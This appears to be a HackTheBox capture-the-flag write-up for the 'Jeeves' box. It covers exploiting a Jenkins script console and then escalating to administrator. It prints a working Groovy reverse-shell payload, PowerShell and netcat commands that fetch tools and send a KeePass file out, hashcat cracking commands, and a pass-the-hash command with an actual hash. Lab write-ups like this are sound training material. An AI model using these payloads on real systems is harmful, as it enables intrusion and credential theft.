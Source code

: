 ```yaml
---
layout: single
title:  Jeeves-HackTheBox
date: 2021-12-18
classes: wide
header:
  teaser: 
tags:
  - ctf
  - HackTheBox
--- 
```



Jeeves is in reference to a Jenkins server that we will eventually be exploiting. Super fun recap box!

![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/images/Jeeves/jeevessite1.PNG)
Starting off by scanning ports.
![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/images/Jeeves/jeevesscan.PNG)

See there is at least one webserver. Fuzz directories, ran nikto etc. Nothing of real interest there.
Check out the second Jetty webserver spotted in the nmap scan. gobuster until we find askjeeves	

![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/images/Jeeves/jeeves1finsihsed.PNG)

Stumble accross the scripting console
![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/images/Jeeves/jeevescli.PNG)

Do research to find ways to exploit this
exploit jenkins with groovy script 
https://book.hacktricks.xyz/pentesting/pentesting-web/jenkins#code-execution
![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/images/Jeeves/jeevesscript.PNG)


https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy

String host="<LOCAL-IP>";
int port=1234;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/images/Jeeves/jeevesusershell.PNG)  
  
We get a user shell as kohsuke. 
After a little bit of recon we come accross CEH.kdbx 
  
This file format appears to be a keepass password file. Before we attempt to see the password we have to download the file to our local machine. 
  
![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/images/Jeeves/jeeveskdbx.PNG)

 I achieved this by downloading a netcat executable from the user shell we are in from a python http server that we host.
  
"powershell wget "http://localip:8000/nc.exe" -outfile nc.exe"
The virtual machine cannot reach out to github to download the file from there
Then "nc -lnvp <port> > CEH.kdbx" on your local machine and "nc.exe <local-ip> <same-port> < "CEH.kdbx" on the victim machine

We need a password to open the kdbx file. Why dont we crack it? 
I used this article as guidance, the main points summarized are
                                                                                               
https://www.rubydevices.com.au/blog/how-to-hack-keepass 
download and use keepass2john on the kdbx file.

./keepass2john CEH.kdbx > CEH.hash
Remove name of keepass database from the new hashfile. 
use hashcat to crack the file.

./hashcat -m 13400 -a 0 -w 1 CEH.hash <wordlist-file> 
 moonshine1 is the password to the keepass file
  
 ![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/images/Jeeves/jeeveskeepass1.png)
 
 ![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/images/Jeeves/jeeveskeepass2.png)
 
 We find a hash in the keepass file under the title of Backup stuff
 From here I got stuck for a while. While researching I found the tool pth-winexe
 read the docs, run to get admin! 
  
 pth-winexe --user=jeeves/administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 --system //10.10.10.63 cmd.ex
 
 we now have a root shell!
 ![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/images/Jeeves/jeevesroot.PNG)

admin has hm.txt file redirecting to actual file
![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/images/Jeeves/jeeveshn.PNG)

 get-content .\hm.txt -stream root.txt
and we get root flag :)
